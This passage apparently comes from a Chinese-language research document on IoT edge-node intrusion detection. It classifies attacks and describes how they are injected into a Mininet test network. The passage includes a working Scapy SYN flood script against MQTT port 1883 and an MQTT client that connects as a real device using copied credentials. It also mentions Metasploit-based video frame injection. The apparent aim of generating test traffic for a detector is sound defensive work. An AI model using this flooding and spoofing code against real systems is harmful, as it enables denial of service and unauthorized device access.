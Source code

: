 **2. 应用层攻击（共7种）**  
| 攻击名称 | 实施方式 | 检测难点 | 典型场景 |  
|----------------|-----------------------------------------------------------------------------|-------|--------------------------------------------------------------------------|  
| MITM攻击 | 通过中间人设备转发并篡改数据 | 加密通道绕过 | 修改摄像头视频流中的运动检测结果（将“检测到人体”改为“无异常”） |  
| DDoS攻击 | 多源并发连接请求耗尽资源 | 流量特征混淆 | 针对边缘节点的MQTT服务端口（1883）发起SYN Flood攻击 |  
| 身份伪造 | 使用合法设备ID和令牌接入系统 | 硬件指纹伪造 | 模拟已注册路由器接入，获取网络管理权限 |  
| 数据篡改 | 修改传感器数据（如温度、电量） | 完整性校验绕过 | 将智能插座的功率数据从200W改为20W，误导能源消耗统计 |  
| 固件漏洞利用 | 利用已知漏洞（如CVE-2023-20655） | 0day漏洞防御 | 通过路由器管理界面上传恶意固件，实现远程控制 |  

**3. 资源层攻击（共2种）**  
- **CPU耗尽攻击**：通过大量计算密集型请求（如复杂加密运算）占用边缘节点CPU，导致入侵检测模块延迟升高。  
- **内存泄漏攻击**：利用缓冲区溢出漏洞持续分配内存不释放，最终导致边缘节点服务崩溃。  


#### 4.3.2 攻击注入技术方案  
**1. 网络层注入（基于Mininet+Scapy）**  
- **虚拟网络构建**：  
  ```python  
  from mininet.topo import Topo  
  from mininet.net import Mininet  
  from mininet.node import OVSKernelSwitch  

  class AttackTopo(Topo):  
      def build(self, edge_node_ip, attack_node_ip):  
          s1 = self.addSwitch('s1')  
          edge_node = self.addHost('edge_node', ip=edge_node_ip)  
          attack_node = self.addHost('attack_node', ip=attack_node_ip)  
          self.addLink(s1, edge_node)  
          self.addLink(s1, attack_node)  

  net = Mininet(topo=AttackTopo('192.168.1.100', '192.168.1.200'), switch=OVSKernelSwitch)  
  net.start()  
  ```  
- **攻击流量生成**：  
  - SYN Flood攻击：Scapy脚本每秒发送1000个SYN包到边缘节点的1883端口，设置随机源IP和端口。  
  ```python  
  from scapy.all import *  
  def syn_flood(target_ip, target_port, count):  
      for i in range(count):  
          ip_packet = IP(src=RandIP(), dst=target_ip)  
          tcp_packet = TCP(sport=RandShort(), dport=target_port, flags='S')  
          send(ip_packet/tcp_packet, verbose=False)  
  ```  

**2. 协议层注入（基于Metasploit模块）**  
- **Zigbee设备攻击**：使用Zigbee Security Test Tool（ZSTT）发送未认证的ZCL命令，尝试获取设备密钥。  
- **摄像头攻击**：利用Metasploit的`exploit/multi/handler`模块监听RTSP流，注入伪造的视频帧数据。  

**3. 应用层注入（自定义脚本）**  
- **身份伪造工具**：读取设备注册列表，复制合法设备的硬件指纹和安全令牌，通过MQTT协议伪装接入。  
  ```python  
  import paho.mqtt.client as mqtt  
  def fake_device_connect(device_id, token):  
      client = mqtt.Client(device_id)  
      client.username_pw_set(username=device_id, password=token)  
      client.connect("edge_node_ip", 1883, 60)  
      client.loop_start()  
  ```  

